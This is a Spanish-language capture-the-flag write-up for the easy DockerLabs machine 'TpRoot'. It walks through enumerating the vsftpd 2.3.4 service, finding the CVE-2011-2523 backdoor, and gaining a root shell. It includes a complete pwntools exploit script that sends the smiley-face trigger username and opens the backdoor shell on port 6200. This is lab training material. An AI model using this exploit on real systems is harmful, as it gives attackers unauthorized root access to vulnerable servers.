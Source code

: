 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)



**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

`python
from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('[✦] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[✦] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()

try:
    shell = remote(host, 6200, timeout=5.0)
    print("[✦] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[!] Error: {e}")`




![img12](/secnotes/assets/img/tproot/12.png) 


